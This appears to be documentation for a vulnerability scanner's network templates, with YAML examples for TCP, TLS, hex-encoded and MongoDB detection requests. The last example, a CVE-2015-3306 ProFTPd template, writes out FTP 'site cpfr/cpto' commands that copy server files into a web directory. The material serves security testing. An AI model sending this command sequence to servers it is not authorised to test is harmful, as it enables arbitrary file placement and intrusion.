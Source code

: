 ```yaml
---
title: "Network"
---
```


## Basic Network Request

This template connects to a network service, sends some data and reads 4 bytes from the response. Matchers are run to identify valid response, which in this case is `PONG`.

```yaml
id: basic-network-request

info:
  name: Basic Network Request
  author: pdteam
  severity: info

tcp:
  - host: 
      - "{{Hostname}}"
    inputs:
      - data: "PING\r\n"
    read-size: 4
    matchers:
      - type: word
        part: data
        words:
          - "PONG"
```

## TLS Network Request

Similar to the above template, but the connection to the service is done with TLS enabled.

```yaml
id: basic-tls-network-request

info:
  name: Basic TLS Network Request
  author: pdteam
  severity: info

tcp:
  - host: 
      - "tls://{{Hostname}}"
    inputs:
      - data: "PING\r\n"
    read-size: 4
    matchers:
      - type: word
        part: data
        words:
          - "PONG"
```

## Hex Input Request

This template connects to a network service, sends some data encoded in hexadecimal to the server and reads 4 bytes from the response. Matchers are run to identify valid response, which in this case is `PONG`. The match words here are encoded in Hexadecimal, using `encoding: hex` option of matchers.

```yaml
id: hex-network-request

info:
  name: Hex Input Network Request
  author: pdteam
  severity: info

tcp:
  - host: 
      - "{{Hostname}}"
    inputs:
      - data: "50494e47"
        type: hex
      - data: "\r\n"
        
    read-size: 4
    matchers:
      - type: word
        part: data
        encoding: hex
        words:
          - "504f4e47"
```

## Input Expressions

Inputs specified in network also support DSL Helper Expressions, so you can create your own complex inputs using variety of vulmap helper functions. The below template is an example of using `hex_decode` function to send decoded input over wire.

```yaml
id: input-expressions-mongodb-detect

info:
  name: Input Expression MongoDB Detection
  author: pd-team
  severity: info
  reference: https://github.com/orleven/Tentacle

tcp:
  - inputs:
      - data: "{{hex_decode('3a000000a741000000000000d40700000000000061646d696e2e24636d640000000000ffffffff130000001069736d6173746572000100000000')}}"
    host:
      - "{{Hostname}}"
    read-size: 2048
    matchers:
      - type: word
        words:
          - "logicalSessionTimeout"
          - "localTime"
```

## Multi-Step Requests

This last example is an RCE in proFTPd which, if vulnerable, allows placing arbitrary files in any directory on the server. The detection process involves a random string on each vulmap run using `{{randstr}}`, and sending multiple lines of FTP input to the vulnerable server. At the end, a successful match is detected with the presence of `Copy successful` in the response.

```yaml
id: CVE-2015-3306

info:
  name: ProFTPd RCE
  author: pd-team
  severity: high
  reference: https://github.com/t0kx/exploit-CVE-2015-3306
  tags: cve,cve2015,ftp,rce

tcp:
  - inputs:
      - data: "site cpfr /proc/self/cmdline\r\n"
        read: 1024
      - data: "site cpto /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpfr /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpto /var/www/html/{{randstr}}\r\n"
    host:
      - "{{Hostname}}"
    read-size: 1024
    matchers:
      - type: word
        words:
          - "Copy successful" 
```